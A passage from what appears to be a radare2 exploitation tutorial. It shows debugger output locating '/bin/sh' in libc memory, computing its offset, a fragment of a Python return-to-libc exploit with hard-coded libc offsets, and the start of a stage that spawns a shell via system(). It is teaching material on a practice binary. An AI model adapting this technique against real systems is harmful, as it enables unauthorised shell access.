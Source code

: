                               <span style="color: #468ee6;">[0x080483d0]></span> / /bin/sh<br /> Searching 7 bytes from 0x08048000 to 0xffd50000: 2f 62 69 6e 2f 73 68<br /> Searching 7 bytes in [0x8048000-0x8049000]<br /> hits: 0<br /> Searching 7 bytes in [0x8049000-0x804a000]<br /> hits: 0 <..truncated..> Searching 7 bytes in [0xf77aa000-0xf77ab000]<br /> hits: 0<br /> Searching 7 bytes in [0xffd2f000-0xffd50000]<br /> hits: 0<br /> 0xf7700768 hit1_0 .b/strtod_l.c-c<strong><span style="color: #00ccff;">/bin/sh</span></strong>exit 0canonica.
                            </td>
                          </tr>
                        </table>
                      </div>
                      
                      <p>
                        r2 found <code>"/bin/sh"</code> in the memory. Now let&#8217;s calculate its offset from <em>libc </em>base:
                      </p>
                      
                      <div style="overflow-x: auto; margin: 0 0 20px;">
                        <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
                          <tr style="height: 19.8594px;">
                            <td style="height: 19.8594px;">
                              <span style="color: #468ee6;">[0x080483d0]></span> dmm~libc<br /> 0xf7599000 /usr/lib32/libc-2.25.so<br /> <span style="color: #468ee6;">[0x080483d0]></span> ?X 0xf7700768-0xf7599000<br /> 167768
                            </td>
                          </tr>
                        </table>
                      </div>
                      
                      <p>
                        We found that the offset of <code>"/bin/sh"</code> from the base of <em>libc</em> is 0x167768. Let&#8217;s fill it in our exploit and move to the last part.
                      </p>
                      
                      <pre class="toolbar:2 marking:false ranges:false nums:false nums-toggle:false show-plain:3 lang:python decode:true">...

# Offsets
offset_puts = 0x00062710 
offset_system = 0x0003c060 
offset_exit = 0x0002f1b0
offset_str_bin_sh = 0x167768  

...</pre>
                    </div>
                    
                    <h3>
                      <span class="ez-toc-section" id="Spawning_a_shell"></span>Spawning a shell<span class="ez-toc-section-end"></span>
                    </h3>
                    
                    <p>
                      The second stage of the exploit is pretty straightforward. We will again use 140 bytes of padding, then we&#8217;ll call <code>system</code> with the address of <code>"/bin/sh"</code> as a parameter and then return to <code>exit</code>.
                    </p>
                    

 [1]: https://www.megabeets.net/a-journey-into-radare-2-part-1/
 [2]: https://en.wikipedia.org/wiki/NX_bit
 [3]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
 [4]: https://en.wikipedia.org/wiki/Call_stack
 [5]: https://en.wikipedia.org/wiki/Buffer_overflow
 [6]: https://en.wikipedia.org/wiki/Return-oriented_programming
 [7]: https://en.wikipedia.org/wiki/X86_calling_conventions
 [8]: https://www.megabeets.net/uploads/r2_part1_2.png
 [9]: https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2
 [10]: https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2.c
 [11]: https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries
 [12]: https://en.wikipedia.org/wiki/Position-independent_code
 [13]: https://tk-blog.blogspot.co.il/2009/02/relro-not-so-well-known-memory.html
 [14]: https://reverseengineering.stackexchange.com/a/16115/18698
 [15]: https://www.megabeets.net/uploads/mainsym.png
 [16]: https://www.megabeets.net/uploads/beetsym.png
 [17]: https://www.megabeets.net/uploads/tumblr_m5vxpy8Cs41qfoh4t.gif
 [18]: https://en.wikipedia.org/wiki/De_Bruijn_sequence
 [19]: https://en.wikipedia.org/wiki/C_standard_library
 [20]: https://en.wikipedia.org/wiki/Return-to-libc_attack
 [21]: https://en.wikipedia.org/wiki/Shellcode